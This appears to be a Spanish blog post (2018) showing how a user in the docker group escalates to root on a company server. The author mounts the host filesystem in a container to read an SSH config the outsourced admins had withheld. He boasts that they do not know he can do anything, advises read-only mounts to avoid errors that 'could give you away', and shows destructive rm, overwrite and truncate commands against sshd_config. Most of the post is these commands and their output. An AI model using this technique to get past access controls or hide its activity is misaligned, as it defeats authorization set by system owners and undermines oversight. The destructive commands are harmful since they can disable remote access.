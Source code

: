 Title: Usando Docker para saltarse los permisos de Linux
Slug: usando-docker-para-saltarse-los-permisos-de-linux
Date: 2018-12-17 10:00
Category: Operaciones
Tags: docker, permisos, linux



Según el paradigma de externalización de mi empresa, todos los sistemas son gestionados por un tercero, a base de cambios. Por petición mia, tengo un usuario nominal de SSH y puedo entrar a mirar logs y configuraciones, pero no todas. Lo que no saben es que puedo hacer de todo.

El otro día intenté mirar una configuración de sistema (concretamente el `/etc/ssh/sshd_config`) para ver si había una configuración específica de enjaulado de los usuarios, puesto que se trata de un SFTP público.

```bash
gerard@atlantis:/etc/ssh$ cat sshd_config
cat: sshd_config: Permiso denegado
gerard@atlantis:/etc/ssh$
```

No se quien es el paranoico que pidió estos permisos, pero me toca pasar por el aro; o bien solicito que me lo pasen, o bien pido permisos de *sudo* o similar. Pero hay una manera que no va a tardar días, y que los técnicos que lo llevan no han controlado: el servidor tiene **docker** instalado, y mi usuario pertenece al grupo.

Eso me permite ejecutar un contenedor con el *uid* que yo quiera, siendo el *uid* por defecto el "0" que es el usuario **root**.

```bash
gerard@atlantis:~$ docker run -ti --rm -u 70 alpine:3.8
/ $ grep 70 /etc/passwd
postgres:x:70:70::/var/lib/postgresql:/bin/sh
/ $ whoami
postgres
/ $ id
uid=70(postgres) gid=70(postgres)
/ $
```

**NOTA**: La traducción entre el *uid* "70" y el usuario "postgres" se hace en base al fichero `/etc/passwd` **del contenedor**.

Solo nos queda montar el sistema de ficheros del servidor en una carpeta cualquiera como un volumen y así puedo ver y modificar lo que ya quiera.

```bash
gerard@atlantis:~$ docker run -ti --rm -v /:/host alpine:3.8
/ # whoami
root
/ # cat /host/etc/ssh/sshd_config
#       $OpenBSD: sshd_config,v 1.100 2016/08/15 12:32:04 naddy Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.
...
/ #
```

Si solo pretendéis ver, montad el volúmen con la opción *readonly*, y os váis a evitar elgún error que os pueda delatar. Sin embargo, si váis a hacer modificaciones meditadas y conscientes, adelante.

```bash
gerard@atlantis:~$ docker run -ti --rm -v /:/host:ro alpine:3.8
/ # whoami
root
/ # rm /host/etc/ssh/sshd_config
rm: remove '/host/etc/ssh/sshd_config'? y
rm: can't remove '/host/etc/ssh/sshd_config': Read-only file system
/ # echo 'destroyed' > /host/etc/ssh/sshd_config
/bin/sh: can't create /host/etc/ssh/sshd_config: Read-only file system
/ # truncate -s 0 /host/etc/ssh/sshd_config
truncate: /host/etc/ssh/sshd_config: open: Read-only file system
/ #
```

Recordad que lo que hagáis a partir de aquí queda bajo vuestra propia responsabilidad... Sed cautos
